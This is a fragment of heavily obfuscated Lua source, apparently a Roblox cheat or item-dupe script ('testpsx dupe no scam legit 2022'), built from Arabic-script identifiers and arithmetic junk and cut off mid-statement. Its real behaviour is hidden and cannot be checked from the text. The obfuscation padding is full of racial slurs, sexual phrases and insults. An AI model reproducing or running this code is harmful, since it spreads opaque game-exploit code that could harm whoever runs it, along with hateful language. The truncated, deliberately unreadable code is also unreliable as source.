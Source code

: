 ,nil,nil;(function() _msec=(function(e,d,l)local G=d["ڪسڪنڝجدآ"];local K=l[e[(-101+0x2e8)]][e["د؃زڝئؠؠدحجنس"]];local p=(9+-#{1;(function()return#{('fflphP'):find("\108")}>0 and 1 or 0 end),102;'nil',","})/(-#[[Fucking Retarted]]+(153-(-#'0nly was here mf'+(-23+(-#"cilertedcool"+(246+-0x3c))))))local i=((0x44-(0x6b+(-0x3461/253)))+-#[[Lana Rhoades]])-(-30+0x1f)local E=l[e[(-#"send nudes"+(0x8baa/177))]][e["آدزؠق؃حضڪح"]];local m=(103+(-159-((-0x48+27)+-#"Lana Rhoades")))+((810/0x1e)+-#'cilerteddoesntlikeburgers')local y=l[e[(((683+-#{(function()return{','}end)(),(function()return{','}end)();","})+-70)+-#'Lana Rhoades')]][e["آڪنآجنحآؠد؃ڝؠنآكآضټ"]]local n=(-#[[cilertedcool]]+(101-0x57))-(0xec/((0x227-(717-0x196))+-#[[yeet]]))local x=((0x1773/((288/(90-0x57))+-#[[holy shit]]))+-67)local f=(-79+((-0x52+(-#'big niggers sucking cock'+(717-0x192)))-128))local b=(0x4e-(((-21+(292+-#{{},'nil','}',",";(function()return{','}end)()}))+-#[[mf stfu]])-0xb7))local u=(-0x40+(-124+(16720/(-#"Ur mom"+(6674/0x47)))))local t=(((((-#[[warboy hates you]]+(233+-0x42))+-59)+-#[[lego hax]])-54)/0xf)local h=(((91+-#{(function()return#{('kPfHpL'):find("\102")}>0 and 1 or 0 end);{};1;'nil',",",34,(function()return#{('kPfHpL'):find("\102")}>0 and 1 or 0 end)})/0x6)+-#'cilertedcool')local F=(-#'testpsx dupe no scam legit 2022 free no virus'+(0x777/(-#'arab porn'+(0x1410/(2568/(-#"Cock and ball tortue"+(5412/0x7b)))))))local R=(-#{'nil',111,1,1,1;","}+10)local U=((-0x4b+(0x13730/(487-0x117)))/0x4d)local q=(-#"free bobux no skem"+(((2632/(-#{'nil',94;(function()return{','}end)();1;(function()return#{('hMmmBo'):find("\109")}>0 and 1 or 0 end)}+12))+-#"big niggers sucking cock")/16))local D=(((0x229+(-0x3d-0))/3)/0x29)local P=(0x7c/((-0xe0c/(0x7f+(-#'Fucking Retarted'+(-1804/0x16))))+155))local L=((((((-0x62+191510)+-#[[warboy hates you]])/0xec)-451)+-#[[testpsx dupe no scam legit 2022 free no virus]])/105)local w=(0x2a6/((562-(-65+0x16c))+-0x25))local c=(((316+(-0x1b+(-#[[arab porn]]+(-0x1-24))))-183)+-0x45)local v=(-0x58+(-#"howtodumpscript"+(254-(-#[[testpsx dupe no scam legit 2022 free no virus]]+(0x89f7/((0x1bd-246)+-#'0nly was here mf'))))))local s=(0x33-(0x73-(-#'mike litoris'+(17854/(269+-0x2b)))))local g=(-93+(168+((-0x55+-41)+0x36)))local S=e[(0xaac-1383)];local V=l[e[(250+-0x3a)]][e["كحدئؠزڝڪكؠزحڝآز"]];local Q=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('حئؠسززؠ؃')..'\109\101'..('\116\97'or'زؠڝضڪڪجؠ')..e[(0x51c-710)]];local M=l[e[(0x516-704)]][e["سكزدآسسدضټدڝد"]];local j=(0x39+-55)-(44-(0x65-(0x83+-72)))local I=(((270-(25650/0x87))+-#[[arab porn]])-69)-((10530/0xc3)+-#[[If LocalPlayer equals Dumbass then while true do end]])local H=l[e[(0x9000/192)]][e["ئؠجنؠحقټ؃سسڝجآڪضض؃"]];local o=function(l,e)return l..e end local C=((-115+0x82)+-#'nicowashere')*(((-18644/0xec)+0x2cb)/159)local B=l[e["ڪحئآضئآئآڪضټقټڪند"]];local a=(0x32-48)*(((438299/0x2b)+-81)/0x4f)local N=((185120/(0x6bc6/155))+-#"warboy hates you")*(-#"yeet"+(0x2d-(0xae-(0xf9+-114))))local J=(-#"big niggers sucking cock"+((0x3996+(0x3+-77))/0xc1))local _=(0x1a0/(0x1cb-(-0x4a+325)))*(132/0x42)local k=l[e["؃دح؃ڪڝئقټ؃آ؃؃قجك"]]or l[e[(-#'warboy hates you'+(1338-0x2d4))]][e["؃دح؃ڪڝئقټ؃آ؃؃قجك"]];local r=(((-15180/0xdc)-0)+325)local e=l[e["ڪڪكزآنټدضكقؠ؃"]];local M=(function(a)local r,d=2,0x10 local l={j={},v={}}local o=-n local e=d+i while true do l[a:sub(e,(function()e=r+e return e-i end)())]=(function()o=o+n return o end)()if o==(C-n)then o=""d=j break end end local o=#a while
e